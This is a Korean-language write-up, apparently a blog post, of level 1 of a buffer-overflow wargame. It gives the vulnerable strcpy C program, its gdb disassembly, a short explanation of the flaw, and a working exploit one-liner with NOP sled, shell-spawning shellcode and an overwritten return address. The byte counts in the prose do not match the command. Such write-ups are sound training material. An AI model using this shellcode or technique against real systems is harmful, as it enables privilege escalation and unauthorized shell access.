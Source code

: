 ```yaml
---
title: "BOF - Lv.1 gate"
excerpt: "Lv.1 gate"
toc: true
toc_sticky: true
categories:
  - BOF
tags:
  - buffer overflow
---
```


## 1. Source Code
```C
#include <stdio.h>
int main(int argc, char *argv[])
{
    char buffer[256];
    if(argc <2) {
        printf("argc error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n",buffer);
}

gdb로 보면
0x8048430 <main>:       push   %ebp
0x8048431 <main+1>:     mov    %ebp,%esp
0x8048433 <main+3>:     sub    %esp,0x100
0x8048439 <main+9>:     cmp    DWORD PTR [%ebp+8],1
0x804843d <main+13>:    jg     0x8048456 <main+38>
0x804843f <main+15>:    push   0x80484e0
0x8048444 <main+20>:    call   0x8048350 <printf>
0x8048449 <main+25>:    add    %esp,4
0x804844c <main+28>:    push   0
0x804844e <main+30>:    call   0x8048360 <exit>
0x8048453 <main+35>:    add    %esp,4
0x8048456 <main+38>:    mov    %eax,DWORD PTR [%ebp+12]
0x8048459 <main+41>:    add    %eax,4
0x804845c <main+44>:    mov    %edx,DWORD PTR [%eax]
0x804845e <main+46>:    push   %edx
0x804845f <main+47>:    lea    %eax,[%ebp-256]
0x8048465 <main+53>:    push   %eax
0x8048466 <main+54>:    call   0x8048370 <strcpy>
0x804846b <main+59>:    add    %esp,8
0x804846e <main+62>:    lea    %eax,[%ebp-256]
0x8048474 <main+68>:    push   %eax
0x8048475 <main+69>:    push   0x80484ec
0x804847a <main+74>:    call   0x8048350 <printf>
0x804847f <main+79>:    add    %esp,8
0x8048482 <main+82>:    leave
0x8048483 <main+83>:    ret
```

## 2. Vulnerability

코드를 보면 strcpy함수를 사용함. strcpy함수는 입력받는 크기값이 정해져있지 않아서 버퍼 오버플로에 취약한 함수임.

## 3. Solution
입력은 ebp-256부터 받음. 대충 값을 줘서 값이 들어가있는 주소들 중 하나를 선택하고 ex) 0xbffff964 이 주소를 리턴주소로 하고 값으로는 쉘코드 41byte+nop 215byte+sfp 4byte+ ret 4byte = 264byte를 값으로 줘야함. 한번에 성공하고 싶으면 리턴주소까지 몇바이트의 값이 있는지 확인해보고 하면 더 수월함. 
```php
./gremlin `python -c 'print "\x90"*64+"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"+"\x90"*155+"\x64\xf9\xff\xbf"'` 
``` 